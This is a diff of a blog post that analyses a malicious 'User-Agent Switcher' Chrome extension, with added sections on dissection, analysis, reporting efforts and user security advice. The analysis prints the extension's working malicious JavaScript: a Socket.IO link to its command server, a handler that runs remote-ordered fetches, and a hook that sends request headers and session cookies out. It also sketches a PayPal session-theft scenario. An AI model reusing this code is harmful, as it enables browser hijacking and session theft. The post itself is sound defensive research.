

Progress

diff --git a/_content/2020/inside-user-agent-switcher-malicious-extension/index.md b/_content/2020/inside-user-agent-switcher-malicious-extension/index.md
@@ -3,16 +3,20 @@ layout: post
 title: "Inside 'User-Agent Switcher' Malware: The Dark Side of Influencer Marketing"
 permalink: /2020/inside-user-agent-switcher-malicious-extension/
 description: "In a dystopian future where 'followers' and 'likes' can turn one person's social media account into a million-dollar brand-deal powerhouse, those unoriginal enough will pay hundreds or thousands of dollars to try to enter the social media stratosphere through shady deals and malicious methods. Oh, wait."
-date: 2020-10-11 00:00:00
+date: 2020-10-12 00:00:00
 tags:
 - malware
 - extension
 - chrome
 ---
 
+![Chrome Web Store's User-Agent Switcher extension page (malicious).](/2020/inside-user-agent-switcher-malicious-extension/store-uas-malicious-small.png)
+
 ## Observation
 
 Spinning up resources to test this extension and monitor its traffic was simple. Since I didn't have an Instagram account tied to my phone, I signed up for one that I could comfortably destroy. Extensions obey Chrome's connection settings, so all I needed was a VM on an isolated network with Chrome and [Burp Suite](https://portswigger.net/burp). After installing the extension and restarting my browser for good measure, the results started rolling in quickly.
+
+
 
 Contacts an unknown domain
 Sits for a couple minutes
@@ -27,14 +31,146 @@ malicious af
 
 ## Dissection
 
-Hopping into the extension directory, we're greeted with simple internals - mostly JavaScript, some HTML, CSS, and little else. The JavaScript files have been minified (a space-saving measure), so I "beautified" them with [js-beautify](https://github.com/beautify-web/js-beautify) before beginning.
+Hopping into the extension directory, we're greeted with simple internals - mostly JavaScript, some HTML, CSS, and little else. The extension's files are available [here](https://github.com/partridge-tech/chris-blog/tree/master/_content/2020/inside-user-agent-switcher-malicious-extension/no-publish/) for your own exploration. The JavaScript files have been minified (a space-saving measure), so I "beautified" them with [js-beautify](https://github.com/beautify-web/js-beautify) before beginning.
 
+To try to get an early lead, I searched `www.useragentswitch.com` to see if the C&C domain was hardcoded, on the off chance that the malicious components of this extension weren't [obfuscated](https://github.com/javascript-obfuscator/javascript-obfuscator). Surprisingly, it matched in `js/background.min.js`:
+
+```js
+            return chrome.tabs.create({
+                url: "http://www.esolutions.se/whatsmyinfo"
+            }), !1
+        },
+        title: "Show User-agent",
+        type: "normal"
+    })
+}
+var userAgentSwitch = io("https://www.useragentswitch.com/");
+
+function setUserAgent(e, t, s, n) {
+    for (var r, a = 0; a < userAgents.length; a)
+```
+
+Even better, we got another lead only a few lines away. What is esolutions.se/whatsmyinfo? A quick Google search shows that [eSolutions Nordic AB](https://www.esolutions.se/) is a small development company - one which also dabbles in building useful Chrome extensions, such as... [User-Agent Switcher](https://chrome.google.com/webstore/detail/user-agent-switcher/aedikcfpfonanffanecfolneiaoakmlc)!
+
+![Chrome Web Store's User-Agent Switcher extension page (nonmalicious).](/2020/inside-user-agent-switcher-malicious-extension/store-uas-clean-small.png)
+
+Looks like our malware authors picked a common tactic: downloading an existing extension, inserting malware, uploading their malicious copy to the Chrome Web Store, and then [inflating the download count](https://www.theregister.com/2020/05/28/chrome_web_store_fraud/) to manipulate users into trusting it as "safe."
+
+Fortunately for us, this gives us a really powerful method to trim down the code we'll need to look through. Unpacking the clean UAS extension (including beautifying its JavaScript), aligning the file structure (to account for the different version folder), and [diffing](https://linux.die.net/man/1/diff) the two extension folders, only a few files are different: `js/background.min.js`, `js/bootstrap.min.js`, `js/JsonValues.min.js`, `manifest.json`, `_metadata/computed_hashes.json`, and `_metadata/verified_contents.json`. Eliminating irrelevant files (metadata and contents), as well as `js/bootstrap.min.js` which contains different *comments* but not different *code*, we're left with only two files to go through: `js/JsonValues.min.js` and `js/background.min.js`.
+
+#### js/JsonValues.min.js
+
+Taking a look at the [diff](/2020/inside-user-agent-switcher-malicious-extension/unpacked-contents.diff), `js/JsonValues.min.js` only had content appended to it - pruning through, it's quickly apparent that most or all of the added content is the [Socket.IO](https://socket.io/) client. I wasn't certain that was the only content added to this file, so I ran it through [JS NICE](http://www.jsnice.org/) - a project which attempt to intelligently reassemble obfuscated or minified JavaScript by [SRI Lab](http://www.sri.inf.ethz.ch/) at [ETH Zürich](http://www.ethz.ch/) - to see if anything caught my eye after it was automatically annotated. Nothing did, so I took a couple notes and moved on.
+
+#### js/background.min.js
+
+With a much more complex [diff](/2020/inside-user-agent-switcher-malicious-extension/unpacked-contents.diff), `js/background.min.js` is the real "brain" of UAS malware, whose activity is deceptively simple. Removing the noise from the version and minification differences between the extensions we're comparing, the malicious content the author added is only ~30 lines long. While simple, it gives the malware author more than enough control over a user's browser to do nefarious things.
 
 ## Analysis
 
-## Recommendations
+The way this malware works is fairly simple, since [Socket.IO](https://socket.io)'s client-side WebSockets library handles the complexities of making, managing, and interacting with WebSockets. However, since it is principally event- and hook-driven, it may be hard to interpret for observers who aren't familiar with JavaScript. We'll go through the malicious code in sections before bringing it all together.
 
-Never install software from untrusted sources.
+#### Initializing
 
-## Disclosures
+Chrome loads `background.html` on browser start, which in turn loads `js/background.min.js` and `js/JsonValues.min.js`. The first thing UAS does is initialize a WebSocket to its Command & Control server, which is a one-liner thanks to Socket.IO:
 
+```js
+var userAgentSwitch = io("https://www.useragentswitch.com/");
+```
+
+#### Fraudulent Request Handling
+
+It also registers two event hooks on the socket that was just created. The first processes incoming `createFetch` events, which detail fraudulent requests that your browser is being used to execute. These events are passed directly to an asynchronous `createFetch` function, which fetches the requested content, then the results are passed as events which it sends to the Command and Control server via `emit()`.
+
+```js
+userAgentSwitch.on("createFetch", async function(e) {
+    let t = await createFetch(e);
+    userAgentSwitch.emit(e.callBack, t)
+});
+
+async function createFetch(e) {
+    let t = await fetch(e.uri, e.attr),
+        s = {};
+    return s.headerEntries = Array.from(t.headers.entries()), s.data = await t.text(), s.ok = t.ok, s.status = t.status, s
+}
+```
+
+#### Capturing Headers & Deobfuscating
+
+The second event hook that is added to the socket is to process `handlerData` events, which lists hosts that UAS would like to intercept headers on outgoing requests for - capturing session cookies, User-Agent strings, and more. UAS also registers a function titled `handler2` which is invoked on all outgoing web requests before the headers are sent, doing two important functions:
+- Checking to see if the domain that a request is being made for is in our local `handlerData` object, and if so, sending an event via `emit()` to the Command and Control server with the headers of the request.
+- Removing any "obfuscating" `-zzz` strings in header parameters from `createFetch` events (presumably to defeat some part of the Chrome Web Store's malware detection capabilities), and reconstructing the headers afterwards.
+
+```js
+var handlerData = {};
+userAgentSwitch.on("handlerData", function(e) {
+    handlerData = e
+});
+
+var handler2 = function(e) {
+    var t = Object.keys(handlerData);
+    if (t.length > 0) {
+        var s = !0;
+        for (let n = 0; n < t.length; n++) {
+            let r = t[n];
+            if (re = new RegExp(handlerData[r], "gi"), null == e[r].toString().match(re)) {
+                s = !1;
+                break
+            }
+        }
+        s && userAgentSwitch.emit("requestHeadersHandler", e)
+    }
+    return {
+        requestHeaders: JSON.parse(JSON.stringify(e.requestHeaders.reverse()).split("-zzz").join(""))
+    }
+};
+chrome.webRequest.onBeforeSendHeaders.addListener(handler2, {
+    urls: ["<all_urls>"]
+}, ["requestHeaders", "blocking", "extraHeaders"]), runAppStart(), setIconAndText();
+```
+
+#### Data Flow
+
+And that's it - the rest of the client-side C&C is 100% handled by Socket.IO and not inherently malicious - including:
+- Establishing a WebSocket connection
+- Reconnecting the WebSocket connection in case of a failure
+- Packaging events and data into a custom protocol
+- Responding to and sending heartbeats to keep the WebSocket alive
+
+If you're curious or want to learn more about how Socket.IO works, check out their [documentation](https://socket.io/docs/). Putting Socket.IO's protocol together with the malicious code we explored, the control data flow can be mapped out as:
+
+![User-Agent Switcher Command and Control schema.](/2020/inside-user-agent-switcher-malicious-extension/cnc-logic.png)
+
+#### Flexibility
+
+The most important takeaway is that this malware, while simple, can be instructed by the malware author to perform nefarious actions on any site. If the author wanted to expand into bigger and badder territory - such as stealing online banking credentials - they could launch that attack immediately, without even updating the client. Say the author decides to try stealing money from my PayPal account:
+
+- Send a `handlerData` event with PayPal's domain (www.paypal.com)
+- Send a `createFetch` event for PayPal's dashboard
+
+At that point, the malware author now has my session token, and could choose between executing requests remotely or on their own infrastructure (as they also have my browser information). If they chose to execute remotely, they would simply need to send more `createFetch` events to collect context (ex. how much money is in my account) and then POST transfer requests to PayPal's API. The only protection I have is that _maybe_ PayPal would ask me to reenter my password if the transfer account was large enough or the user is not known - which UAS (thankfully) wouldn't be able to bypass...
+
+That is, unless it was updated to. Modify money transfer requests so they will be sent to an attacker-controlled account would be a trivial change, and is functionally similar to how `handler` (from not-malicious UAS) and `handler2` hook to outgoing requests for rewriting. Further, it's unlikely that this behavior would be detected by Google's automatic and manual review processes, since they haven't detected this malware lurking on the Chrome Web Store.
+
+## Taking Action
+
+Which brings us to the most disappointing section - knowing more than enough about how this malware works, and reporting it to parties which host or support it, has there been any action to remove it?
+
+**As of Monday, October 12, 2020: No.**
+
+Despite reaching the top of [r/cybersecurity](https://reddit.com/r/cybersecurity), getting some very bad reviews, and having a bunch of people (including me) report this extension to Google over the past week ([u/ufo56](https://reddit.com/user/ufo56)'s post was Tuesday, October 06 2020), it is currently still available for download from the Chrome Web Store.
+
+Any unsuspecting user that has this extension installed is still having their accounts manipulated for influencer marketing, and is at risk of becoming a victim to high-impact attacks on other web services they use - as they have been for *at least* one month (since the extension was updated on September 7th 2020, and possibly people have been at risk for much longer than that based on the oldest comments).
+
+With the increased pressure from this writeup - and hopefully positive community response - I'm sure this malware will eventually be removed from the Chrome Web Store, which will automatically purge it from users who had installed it previously as well. However, that begs the question: if ufo56 didn't make a post on Reddit about this, or their post hadn't gained any traction, and they'd simply filed their report and moved on: how long would this malware remain on the Chrome Web Store? Would their one report have generated any action at all?
+
+## Security Recommendations
+
+While it's not the most potent or original malware ever seen, it serves as an important reminder to be diligent and thoughtful about how to manage our safety online. Most everyone who has read through this post probably knows these, so if nothing else, *tell your friends* so they can get a deeper understanding of how to stay secure.
+
+- **Just because it's on the Chrome Web Store, doesn't mean it's safe.** This malicious extension isn't an [isolated incident](https://threatpost.com/500-malicious-chrome-extensions-millions/152918/). I would love to live in a world where I could simply say "Google Trust & Safety took care of this concern for you," but we're not there yet in the same way that Apple can't stop all Mac malware, Microsoft can't stop all Windows malware, ad infinitum. This is the price we pay for diverse application marketplaces: less per-app security supervision. Therefore, users should always be thoughtful and careful when downloading applications, even off company-run app stores.
+- **Don't install extensions from untrusted authors.** [Downloads](https://www.theregister.com/2020/05/28/chrome_web_store_fraud/) and [reviews](https://www.quora.com/Should-I-boost-my-Chrome-extension-user-base-by-buying-users-and-reviews) can be bought - reputation can't (...[as cheaply](https://www.caoc.org/?pg=facts)). What do people say about the author of the extension you're about to download? Is it a well-known company? Can you make sure it's that company's extension, and not someone pretending to be that company?
+- **Be extra cautious when installing extensions which can 'read and change all your data on the websites you visit.' (or similar)** Extensions that request this permission from your browser can do nearly anything, including impersonate your actions on the sites you use (and sites you don't), like UAS does. ♪ "Anything you can do I can do better... without your knowledge" ♪ isn't quite musical, but it is [pretty close](https://security.stackexchange.com/questions/15259/worst-case-scenario-what-can-a-chrome-extension-do-with-your-data-on-all-websi) to the truth.
+- **If you see something, say something.** When something happens on your computer that you didn't expect - such as likes, posts, emails, or other things appearing which you're fairly sure you didn't create - phone a technologically-adept friend. If you're at work, alert your workplace's IT or Information Security groups. Antimalware will never be perfect, and this extension slips by [61/61](https://www.virustotal.com/gui/file/d5a988742418a06ba6c0649e6ace78eb4bcd061f2222f1a9cc1d97492763cd09/detection) antimalware programs on VirusTotal. Even layered solutions could miss it, and running `www.useragentswitch.com` through some [threat-blocking DNS providers](https://www.ipvoid.com/dns-reputation/), only CleanBrowsing picked it up, and that's likely because it's an [unusually new domain](/2020/inside-user-agent-switcher-malicious-extension/whois-useragentswitch.com.txt).
+
+Stay safe and be well.
